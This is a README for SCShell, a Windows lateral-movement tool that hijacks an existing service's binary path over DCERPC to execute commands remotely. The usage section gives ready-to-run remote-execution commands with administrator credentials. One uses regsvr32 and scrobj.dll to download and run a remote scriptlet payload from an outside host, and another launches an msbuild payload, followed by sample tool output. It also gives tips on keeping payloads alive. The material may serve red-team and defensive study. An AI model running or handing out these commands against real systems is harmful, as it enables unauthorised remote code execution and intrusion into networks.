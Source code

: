 # SCShell

Fileless lateral movement tool that relies on ChangeServiceConfigA to run command. The beauty of this tool is that it doesn't perform authentication against SMB everything is performed over DCERPC.

The utility can be used remotely WITHOUT registering a service or creating a service. It also doesn't have to drop any file on the remote system* (Depend on the technique used to execute 

# How it work

Instead of creating a service it simply remotely open a service and modify the binary path name via the `ChangeServiceConfigA` API.

Then it starts the service.

Everything is happening over DCERPC including authentication.

![network](https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/network.png)


# Usage

The current build is written in `C` but I will port it to `C#` and `PowerShell`.

```
Usage:
SCShell.exe target service payload username domain password
```

`target` can be set to `local` to run the payload locally

Remote execution
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /c regsvr32 /s /n /u /i://your.website/payload.sct scrobj.dll" administrator . Password
```

I recommend using `C:\windows\system32\cmd.exe /c` to make sure to payload will not be killed once the service stop. You NEED to use the full path.

You can also use a msbuild payload
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" administrator . Password
SCShell ***
Trying to connect to 192.168.197.131
Username was provided attempting to call LogonUserA
SC_HANDLE Manager 0x009ED250
Opening XblAuthManager
SC_HANDLE Service 0x009ED1B0
Service path was changed to C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj
Service was started.
```

I'm using the XblAuthManager as the target which is the Xbox Accessory Management Service

# Compiling from source

The code was compiled on Windows using GCC Mingw compiler

# Credit
Mr.Un1k0d3r RingZer0 Team
Tazz0 for the moral support
